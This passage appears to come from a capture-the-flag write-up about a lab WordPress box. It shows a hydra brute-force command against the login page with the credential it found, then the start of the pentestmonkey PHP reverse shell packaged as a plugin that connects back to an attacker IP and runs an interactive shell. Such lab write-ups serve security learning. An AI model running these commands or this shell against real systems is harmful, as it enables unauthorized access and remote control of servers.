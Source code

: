 ```bash
kali@kali:~$ hydra -l Elliot -P password.txt 10.10.157.219 http-post-form "/wp-login:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=10.10.157.219/wp-admin/&testcookie=1:S=302"
```

```bash
[80][http-post-form] host: 10.10.157.219   login: "Elliot"  password: "ER28-0652"
```

![](/assets/img/rob4.png)  

  

Now let's implement some php reverse shell.

```python
<>?php
        /*
        Plugin Name:  Reverse Shell
        Plugin URI: http://shell.com
        Description: gimme a shell
        Version: 1.0
        Text Domain: shell
        Domain Path: /languages
        */
        // php-reverse-shell - A Reverse Shell implementation in PHP
        // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
        set_time_limit (0);
        $VERSION = "1.0";
        $ip = '10.9.2.228';  // CHANGE THIS
        $port = 9999;       // CHANGE THIS
        $chunk_size = 1400;
        $write_a = null;
        $error_a = null;
        $shell = 'uname -a; w; id; /bin/sh -i';
        $daemon = 0;
        $debug = 0;
        //
        // Daemonise ourself if possible to avoid zombies later
        //
        // pcntl_fork is hardly ever available, but will allow us to daemonise
        // our php process and avoid zombies.  Worth a try...
        if (function_exists('pcntl_fork')) {
            // Fork and have the parent process exit
```